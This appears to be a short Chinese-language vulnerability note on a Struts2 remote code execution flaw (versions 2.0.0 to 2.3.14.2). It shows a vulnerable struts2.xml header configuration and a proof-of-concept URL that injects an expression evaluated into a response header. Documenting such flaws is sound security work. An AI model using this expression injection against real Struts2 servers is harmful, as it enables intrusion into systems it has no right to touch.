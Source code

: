 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.2

原因在于struts2.xml配置中有如下的配置:

```
<action name="HelloWorld" class="struts2demo.action.HelloWorldAction">
    <result type="httpheader">
    	<param name="headers.foobar">${q}</param>
    </result>
</action>
```

为HTTP头信息设置了1个foobar的头信息。  

POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?q=%25%7B1%2B3%7D
</pre>

请求头中的foobar的数值为4